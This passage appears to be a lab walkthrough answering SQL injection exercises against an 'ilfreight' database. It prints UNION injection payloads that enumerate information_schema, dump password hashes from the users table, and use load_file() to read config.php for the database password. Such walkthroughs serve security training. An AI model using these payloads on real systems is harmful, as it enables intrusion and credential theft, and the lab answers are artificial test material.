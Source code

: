 8. Use a Union injection to get the result of 'user()'

<figure><img src="../../.gitbook/assets/union-user.png" alt=""><figcaption></figcaption></figure>

9. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

```sql
cn' union select 1,schema_name,3,4 from information_schema.schemata-- -
cn' union select 1,table_name,3,4 from information_schema.tables-- -
cn' union select 1,column_name,3,4 from information_schema.columns where table_name='users'-- -
cn' union select 1,username,password,4 from ilfreight.users-- -
```

<figure><img src="../../.gitbook/assets/newuser-password.png" alt=""><figcaption></figcaption></figure>

10. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

```sql
cn' union select 1,load_file("/var/www/html/search.php"),3,4-- -
cn' union select 1,load_file("/var/www/html/config.php"),3,4-- -
```
